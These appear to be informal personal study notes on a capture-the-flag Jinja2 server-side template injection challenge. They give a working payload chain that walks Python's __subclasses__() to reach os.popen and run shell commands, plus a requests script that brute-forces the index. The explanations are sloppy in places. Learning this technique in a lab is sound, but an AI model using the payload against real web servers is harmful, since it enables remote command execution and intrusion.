 Template -  an xml or html coded file with dynamic content
dynamic content - content which is read from http parameters sent by the user
if dynamic content space not sanitized or test checked by dev, allows attacker to add in whatever input he wants to which has harms and could be dangerous

To read headers of http request or links:
curl -I \<link\>

A famous script to check for injection with:
\{\{7\*7\}\} -> 49
gives a diff output->shows inputs are not getting sanitiszed and validated, they get processed

import ls open doesnt work, so dont do + some servers arent runtime compatible with ts so just show a default error which doesnt help our case

from the curl, we could tell ts uses python, so type in `{{"".__class__}}`
gives output `<class 'str'>`

code is in the req.py folder on desktop, might change location, might not.

<h1>Summarizing ts in claude</h1>
do the necessary imports, in ts getting requests, html and re is important for winning hide and seek with the specific tag and injection

`payload= "{{\"\".__class__.__base__.__subclasses__()}}"`

The `{{}}` are special brackets that make the website think this is instructions, not regular text
`r= requests.post(url, data={"content":payload})`

this posts the payload into the website (injects ts into it)
`if r.status_code == 200:`  checks if it worked

`html_content = r.text
`content_decoded = html.unescape(html_content)
`class_names = re.findall(r"<class '([^']+)'>", content_decoded)`
This takes all the code of the site in html, converts it to normal text using unescape, then uses findall to get all the specific tags and shi

`new_paload = "{{\"\".__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"`
goes through every i'th class,
finds system tools,
executes 'cat flag' to search for the tag 'flag' in the class,
reads whats inside the class/tag

`nr = requests.post(url, data={"content":new_paload})
`if nr.status_code == 200:
    `print(nr.text)
    `print("*"*20)
    `print("class name: ", class_names[i], "index: ", i)
    `exit(0)
puts that specifc thing into the website, if it works successfully, prints whatever the output text was and then exits

<h3>Key takeaways</h3>
THis works because:
1. Canvassed the website with curl to know its based on python/jinjja2 templates that makes an idea of its behaviour clear
2. climbs through python dom family tree using the long `{{''.__class__.wtv}}`
3. `os.popen()`is what runs the `cat flag`command to locate the flag file
4. basically brute force enumeration: try every line in file, and then locate the key one then take it and injection it into file, then we get output

thats all,
`exit(0)`